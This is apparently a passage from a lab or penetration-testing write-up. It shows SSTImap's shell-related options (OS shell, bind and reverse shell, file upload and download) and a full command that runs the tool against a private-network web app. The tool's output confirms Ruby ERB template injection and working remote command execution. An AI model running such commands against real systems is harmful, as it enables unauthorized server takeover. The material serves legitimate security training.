 ```
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```

`python3 /opt/SSTImap/sstimap.py -u "https://192.168.56.133:3000/search?query=TEST&message=*" -e "erb" --os-shell`:
```
    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.2
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: https://192.168.56.133:3000/search?query=TEST&message=*
[*] Testing if Query parameter 'message' is injectable
[*] Erb plugin is testing rendering with tag '*'
[+] Erb plugin has confirmed injection with tag '*' ←
[+] SSTImap identified the following injection point:

  Query parameter: message
  Engine: Erb ←
  Injection: *
  Context: text
  OS: x86_64-linux
  Technique: render
  Capabilities:

    Shell command execution: ok ←
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, ruby code

[+] Run commands on the operating system.
```
